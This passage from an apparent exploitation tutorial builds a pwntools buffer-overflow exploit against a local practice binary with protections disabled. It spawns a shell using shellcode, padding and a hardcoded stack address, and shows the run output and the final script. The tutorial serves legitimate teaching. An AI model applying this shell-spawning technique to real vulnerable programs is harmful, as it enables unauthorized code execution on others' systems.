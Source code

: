 > We can use just `process()` because once the `context.binary` is set it is assumed to use that process

Now we can use pwntools' awesome shellcode functionality to make it *incredibly* simple.

```python
payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode
```

Yup, that's it. Now let's send it off and use `p.interactive()`, which enables us to communicate to the shell.

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

> If you're getting an `EOFError`, print out the shellcode and try to find it in memory - the stack address may be wrong

```bash
$ python3 exploit.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3606
[*] Overflow me
[*] Switching to interactive mode
$ whoami
ironstone
$ ls
exploit.py  source.c  vuln
```

And it works! Awesome.

### Final Exploit

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode

log.info(p.clean())

p.sendline(payload)

p.interactive()
```
